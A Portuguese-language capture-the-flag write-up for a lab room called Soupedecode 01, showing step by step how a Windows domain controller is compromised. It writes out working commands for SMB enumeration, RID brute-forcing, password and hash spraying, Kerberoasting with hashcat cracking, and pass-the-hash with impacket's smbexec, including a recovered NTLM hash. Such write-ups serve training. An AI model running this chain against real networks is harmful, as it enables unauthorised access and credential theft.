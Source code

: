 # _**Soupedecode 01 CTF**_
![](code.jpg)

## _**Enuemração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p- --open -A [ip_address]
> ```
![](scan_nmap.jpg)

Segundo, temos a seguinte descrição sobre a sala  
_Os jogadores devem comprometer um controlador de domínio explorando a autenticação Kerberos, navegando por compartilhamentos SMB, executando pulverização de senhas e utilizando técnicas Pass-the-Hash_  
Terceiro, pelo scan que realizamos, sabemos e podemos:
* Pela saída do Nmap, o alvo é um Controlador de Domínio Windows Server (DC01.SOUPEDDECODE.LOCAL) rodando Windows Server 2022
* Ataques de enumeração de usuários na porta 88
* Enumeração de usuários, grupos e políticas de senha nas portas 389 e 3268
* Enumeração de compartilhamentos e usuários no serviço SMB

Vamos investigar a porta que contém o serviço SMB com o comando ```smbmap -H [ip_address] -u guest -p ""```  
Apesar de termos um _read only_, o IPC$ não é um compartilhamento "de arquivos" para abrir e ler, ele é um pipe de comunicação do SMB usado para RPC  
Continuando, podemos tentar realizar uma enumeração via <mark>Kerbrute</mark>  
Como já sabemos o domínio, **SOUPEDDECODE.LOCAL** e o hostname, **DC01**, vamos executar o seguinte comando para tentar recuperar usuários
> ```bash
> nxc smb [ip_address] -u 'guest' -p '' --rid-brute 3000 | grep SidTypeUser | cut -d '\' -f 2 | cut -d ' ' -f 1 > valid_usernames.txt
> ```
![](smb_user.jpg)

Agora que temos uma lista de usuários válidos, podemos tentar realizar login com cada um deles através do comando abaixo
> ```bash
> nxc smb [ip_address] -u valid_usernames.txt -p valid_usernames.txt --no-bruteforce --continue-on-success
> ```
![](valid_username.jpg)

Após algum tempo, encontramos e temos resultado de um usuário válido  
Vamos utilizar o comando abaixo para recuperar informações de interesse
> ```bash
> nxc smb [ip_address] -u 'ybob317' -p 'ybob317' --shares
> ```
![](user_enum.jpg)

Agora, vamos executar o comando abaixo para nos conectarmos ao usuário e obter mais informações  
> ```bash
> python3 /usr/share/doc/python3-impacket/examples/smbclient.py SOUPEDDECODE.LOCAL/ybob317:ybob317@dc01.soupedecode.local
> ```
![](user_txt.jpg)

Temos nossa primeira flag!  

## _**Escalando privilégios e a root.txt**_
Primeiro, vamos executar o seguinte comando para verificar _kerberostable_  
> ```bash
> python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -request -outputfile kerberoastables.txt 'SOUPEDECODE.LOCAL/ybob317:ybob317'
> ```
![](kerb_scan.jpg)

Agora, usando hashcat, vamos tentamos quebrar os hashes com _rockyou.txt_ e descobrir a senha da conta _file_svc_  
> ```bash
> hashcat kerberoastables.txt /usr/share/wordlists/rockyou.txt
> hashcat kerberoastables.txt --show
> ```
![](hash_cat.jpg)

Temos a senha!  
Com a conta file_svc, re-enumeramos SMB e descobrimos que agora temos acesso de leitura ao compartilhamento de backup através do comando ```nxc smb dc01.soupedecode.local -u 'file_svc' -p '[password]' --shares```  
Agora, acessamos e lemos o arquivo _.txt_  

![](backup.jpg)

Copiamos para um arquivo _backup_extracted_ e então, realizamos uma limpa para ficarmos apenas com hashes e nomes de usuário
> ```bash
> cat backup_extract.txt | cut -d ':' -f 1 > backup_extract_users.txt
> cat backup_extract.txt | cut -d ':' -f 4 > backup_extract_hashes.txt
> ```

Agora, utilizamos _hash spraying_ usando nxc com a lista de nomes de usuários e seus hashes correspondentes
> ```bash
> nxc smb dc01.soupedecode.local -u backup_extract_users.txt -H backup_extract_hashes.txt --no-bruteforce --continue-on-success
> ```
![](hash_spray.jpg)

A tag na saída do comando acima indica que a conta **FileServer$** tem privilégios administrativos no destino, permitindo-nos usar um script _impacket como smbexec.py_ para executar comandos no DC  
Vamos nos conectar com o comando ```python3 /usr/share/doc/python3-impacket/examples/smbexec.py -hashes :e41da7e79a4c76dbd9cf79d1cb325559 'SOUPEDECODE.LOCAL/FileServer$@dc01.soupedecode.local'```  

![](root.jpg)
